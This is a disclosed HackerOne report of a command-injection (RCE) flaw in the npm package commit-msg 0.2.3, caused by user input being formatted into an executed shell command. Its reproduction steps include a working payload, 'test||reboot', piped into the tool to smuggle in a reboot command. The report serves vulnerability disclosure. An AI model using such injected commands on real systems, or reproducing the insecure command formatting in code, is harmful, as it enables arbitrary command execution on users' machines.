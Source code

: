 # [commit-msg] RCE via insecure command formatting

## Report Details
- **Report ID**: 885031
- **URL**: https://hackerone.com/reports/885031
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-28T19:08:57.534Z
- **Disclosed**: 2020-09-24T19:25:32.402Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `commit-msg` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `commit-msg`
**version:** `0.2.3`
**npm page:** `https://www.npmjs.com/package/commit-msg`

## Module Description
> commit-msg is a customizable git commit message parser and validator written in Node.js. It validates a given string based on best practices and can be used as a git hook, command line tool and/or directly through the API.

## Module Stats
[103] downloads in the last week

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/clns/node-commit-msg/blob/master/bin/validate#L128

## Steps To Reproduce:
1. Check there aren't files called `HACKED` 
1. Execute the following commands in another terminal:

```bash
npm i commit-msg -g # Install affected module
git init # Init the current dir as *git*
echo "test||reboot" | commit-msg stdin # Your machine will be rebooted because `reboot` command is injected
node poc.js #  Run the PoC
```
1. Recheck the files: now `HACKED` has been created :)

## Patch
> Don't format `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: v12.16.1
- [NPM VERSION]: 6.13.4

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` via command formatting on `commit-msg`

## Attachments
No attachments
